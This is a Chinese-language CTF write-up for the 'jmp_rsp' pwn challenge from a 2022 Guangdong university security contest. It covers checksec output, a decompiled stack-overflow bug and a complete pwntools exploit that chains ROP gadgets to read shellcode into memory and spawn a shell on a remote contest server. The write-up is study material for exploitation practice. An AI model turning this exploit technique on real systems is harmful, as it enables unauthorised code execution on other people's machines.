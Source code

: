 ```yaml
---
title: 2022年第二届广东大学生网络安全攻防大赛初赛
date: 2022-07-08 13:36:27
permalink: /pages/c841d8/
categories:
  - 网络安全
  - pwn
tags:
  - 
author: 
  name: jimmy
  link: https://github.com/Riam-jimmy
---
```

# 2022 年第二届广东大学生网络安全攻防大赛初赛

## 题目：jmp_rsp

### 查看保护

```
[*] '/home/root/Desktop/pwn/jmp_rsp'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
```

> 64 位小端序，代码段可写可读可执行

### 主函数分析：

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char v3; // cl
  char buf[128]; // [rsp+0h] [rbp-80h] BYREF

  printf((unsigned int)"this is a classic pwn", (_DWORD)argv, (_DWORD)envp, v3);
  read(0, buf, 0x100uLL);
  return 0;
}
```

### 解题思路分析:

> 这里的 read 是往 buf 里写入数据，但他这个 buf 只有 0x80 的大小，read 却可以写入 0x100 的大小，所以此处是存在明显溢出的。
>
> 又因为代码段可读可写可执行，那么就在程序里找一个代码段写入，从而执行 shellcode 获得 shell。
>
> 要想写入代码段就得用到 read 方法来进行写入，那么在本题把返回地址劫持到 read 函数即可。

![image-20220708132959435](https://cdn.jsdelivr.net/gh/Riam-jimmy/picture/img/image-20220708132959435.png)

> 这里可看出 buf 的偏移为 0x80+8 即 136

### exp

```python
from pwn import *
from LibcSearcher import *
context(os='linux',arch='amd64',log_level='debug')
context.terminal = ['tmux', 'splitw', '-h']
py=136
# io=process('./jmp_rsp')
io=remote('47.106.122.102',42102)
elf=ELF('./jmp_rsp')
pop_rdi_addr=0x00400696
pop_rsi_addr=0x0410173
pop_rax_addr=0x415174
pop_rdx_addr=0x449395
main_addr=0x400B5D
data_addr=0x6bb2e0
read_addr=0x400B87
shellcode=asm(shellcraft.sh())#用python生成一个调用shell的2进制代码
payload=flat(['a'*py,pop_rdi_addr,0,pop_rsi_addr,data_addr,pop_rdx_addr,1000,elf.symbols['read'],data_addr])#因为要往代码段里写入可执行代码，所以要用read方法往里面写入代码，此处为read（0，代码段，1000）
io.send(payload)
io.send(flat([shellcode]))
io.interactive()
```
